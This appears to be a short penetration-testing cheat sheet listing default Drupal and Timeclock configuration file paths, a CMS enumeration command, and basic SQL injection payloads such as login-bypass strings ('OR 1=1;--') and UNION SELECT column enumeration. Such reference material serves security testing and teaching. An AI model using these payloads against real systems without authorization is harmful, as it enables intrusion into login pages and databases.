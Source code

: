 #### Drupal

Drupal default database configuration filename
```
<web-app-path>/sites/default/settings.php
```

Scanning Drupal for plugins and versions
```
/pentest/enumeration/web/cms-explorer  -url <target-and-drupal-path> -type drupal
```
#### PHPMyAdmin
```
/phpmyadmin/changelog.php
```
#### Timeclock
Timeclock default database configuration filename
```
<web-app-path>/db.php
```


Default files to check for additional paths
```
lt;target-webpath>/robots.txt
lt;target-webpath>/style.css
```

------------------------------------------------------------------------------------------------------------------
#### SQL Terminators/Comments
MSSQL and MySQL:
```
<sql injected command>;--
```
MySQL:
```
<sql injected command>;#
```


#### Login Pages Basic SQL injection
MS IIS
```
' OR '1=1';--

```
MySQL
```
'OR 1=1;--
'OR 1=1;#
'OR 1=1 LIMIT 1;#
```

#### Enumerate number of columns/fields
```
...UNION SELECT 1;--
...UNION SELECT 1,2;--
...UNION SELECT 1,2,3;--
```
